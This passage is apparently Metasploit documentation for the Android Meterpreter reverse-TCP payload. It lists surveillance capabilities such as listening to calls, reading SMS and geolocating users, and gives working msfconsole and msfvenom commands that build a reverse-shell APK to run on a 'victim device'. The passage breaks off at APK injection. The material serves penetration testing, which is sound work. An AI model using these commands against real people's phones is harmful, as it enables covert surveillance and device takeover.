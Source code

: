 ## Vulnerable Application
The android/meterpreter/reverse_tcp payload is a Java-based Meterpreter that can be used on an
Android device. It is still at an early stage of development, but there are so many things you can
do with it already.

Android Meterpreter allows you to do things like take remote control the file system,
listen to phone calls, retrieve or send SMS messages, geo-locate the user, run post-exploitation modules, etc.

You can test `android/meterpreter/reverse_tcp` on these devices:

**Android Emulator**

An emulator is the most convenient way to test Android Meterpreter. You can try:

* [Android SDK](http://developer.android.com/sdk/index.html#Other) - Creates and manages your emulators from a command prompt or terminal.
* [Android Studio](http://developer.android.com/sdk/installing/index.html?pkg=studio) - Allows you to manage emulators more easily than the SDK.
* [GenyMotion](https://www.genymotion.com/download/) - Requires an account.
* [AndroidAVDRepo](https://github.com/dral3x/AndroidAVDRepo) - Contains a collection of pre-configured emulators.
* [Bluestacks](https://www.bluestacks.com/)  - Very easy to install Android Emulator on Windows.


**A real Android device**

Having a real Android device allows you to test features or vulnerabilities you don't necessarily
have from an emulator, which might be specific to a manufacturer, carrier, or hardware. You also
get to test it over a real network.

## Verification Steps

### To create the APK with msfconsole
Currently, the most common way to use Android Meterpreter is to create it as an APK, and then
execute it on a victim device.

To create the APK with `msfconsole`:

```
msf > use payload/android/meterpreter/reverse_tcp 
msf payload(reverse_tcp) > set LHOST 192.168.1.199
LHOST => 192.168.1.199
msf payload(reverse_tcp) > generate -f raw -o /tmp/android.apk
[*] Writing 8992 bytes to /tmp/android.apk...
msf payload(reverse_tcp) >
```

### To create the APK with msfvenom:

```
./msfvenom -p android/meterpreter/reverse_tcp LHOST=[IP] LPORT=4444 -f raw -o /tmp/android.apk
```

### To inject Meterpreter into an existing APK with msfvenom:
